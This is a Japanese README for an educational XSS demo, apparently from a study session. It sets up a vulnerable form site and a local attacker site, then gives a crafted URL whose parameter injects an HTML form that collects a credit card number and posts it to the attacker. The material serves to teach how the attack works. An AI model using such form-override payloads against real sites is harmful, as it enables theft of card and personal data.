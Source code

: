 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com:5000</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．名前とメールアドレスを打たせるフォームがある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．脆弱サイトのフォームを上書きして，クレカ番号まで入力させた結果を受け取る</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．個人情報を盗まれてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com:8000
```

1. `/` において，名前とメールアドレスを入力
1. `/register` にて，「登録されました」と表示されることを確認

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex01_FormOverride
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex01_formoverride-server
$ google-chrome http://localhost:5000
```

### フォームが上書きされた脆弱サイトを開く

```bash
$ google-chrome --disable-xss-auditor 'http://脆弱サイト.com:5000/?name="></form><form action=http://localhost:5000/ method=POST>クレジットカード番号<input name=credit><br><input type=submit></form><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>'
```

「送信」ボタンを押すと，個人情報が盗まれる
